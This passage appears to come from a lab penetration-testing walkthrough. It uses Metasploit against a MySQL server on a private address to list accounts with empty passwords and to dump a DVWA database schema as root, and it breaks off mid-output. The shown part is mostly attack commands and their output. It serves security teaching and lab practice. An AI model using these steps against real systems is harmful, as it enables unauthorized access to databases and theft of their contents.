 ```
[*] 192.168.8.142:3306 -                User: debian-sys-maint Host: 
[*] 192.168.8.142:3306 -                User: root Host: %
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -        The following accounts have empty passwords:
[*] 192.168.8.142:3306 -                User: debian-sys-maint Host: 
[*] 192.168.8.142:3306 -                User: root Host: %
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -        The following accounts are not restricted by source:
[*] 192.168.8.142:3306 -                User: guest Host: %
[*] 192.168.8.142:3306 -                User: root Host: %
[*] Auxiliary module execution completed
```

### 8. Dump database schema

This will access and dump the database schema.

`use auxiliary/scanner/mysql/mysql_schemadump`

`options`

```
Module options (auxiliary/scanner/mysql/mysql_schemadump):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DISPLAY_RESULTS  true             yes       Display the Results to the Screen
   PASSWORD                          no        The password for the specified username
   RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            3306             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per host)
   USERNAME                          no        The username to authenticate as
```

`set USERNAME root`

`set RHOSTS 192.168.8.142`

`run`

```
[+] 192.168.8.142:3306    - Schema stored in: /home/kali/.msf4/loot/20230328173413_default_192.168.8.142_mysql_schema_505584.txt
[+] 192.168.8.142:3306    - MySQL Server Schema 
 Host: 192.168.8.142 
 Port: 3306 
 ====================

---
- DBName: dvwa
  Tables:
  - TableName: guestbook
    Columns:
    - ColumnName: comment_id
      ColumnType: smallint(5) unsigned
    - ColumnName: comment
      ColumnType: varchar(300)
    - ColumnName: name
      ColumnType: varchar(100)
  - TableName: users
    Columns:
    - ColumnName: user_id
      ColumnType: int(6)
    - ColumnName: first_name
      ColumnType: varchar(15)
    - ColumnName: last_name
```